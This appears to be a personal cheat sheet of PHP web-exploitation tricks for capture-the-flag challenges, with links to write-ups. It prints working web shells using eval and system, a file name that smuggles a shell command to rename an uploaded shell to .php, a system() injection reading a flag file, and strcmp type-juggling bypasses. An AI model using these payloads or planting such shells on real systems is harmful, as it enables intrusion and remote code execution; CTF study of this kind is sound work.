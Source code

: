 # +

- https://github.com/ctfs/write-ups-2015/tree/master/codegate-ctf-2015/web/owlur
- https://www.arneswinnen.net/2013/11/hack-lu-2013-ctf-wannabe-writeup-part-one-web-exploitation/
- http://php.net/manual/en/wrappers.php

```html
<script language=PHP>eval($_GET['q']);</script>
<?php print_r(scandir('/')) ?>
```

```html
<?php echo system($_GET['s']); ?>
```
    > uploaded as shell.png, then uploaded another file: ´cd uploads;cd 6a9btoq20khkn8ln5lfhuo6v62;cp 65-shell.png shell.php´.png

```
flag','..')+or+system('cat+templates/flag.php');//
```

# type juggling, weak comparison, magic hashes

```php
<?php
strcmp($_GET['user'], "admin") == 0
// => "admin1"

strcasecmp($_GET['secret'], "0x1337") == 0
// => ["1"]
```

# deserialization

```
```


- [GitHub \- galdeleon/35c3\_php: Solution for 35c3 php challenge](https://github.com/galdeleon/35c3_php)
    - ~/code/snippets/ctf/web/35c3_php/

# jail

[GitHub \- splitline/PHPFuck: PHPFuck: \(\(\+\.^\)\) / Using only 7 different characters to write and execute php\.](https://github.com/splitline/PHPFuck)
https://github.com/terjanq/Flag-Capture/blob/master/MeePwn%202018/omega/README.md#part2
https://gist.github.com/terjanq/aa39a5a40b8d9b8a8e2a54e747715a2c
    https://twitter.com/terjanq/status/1257276298550001664
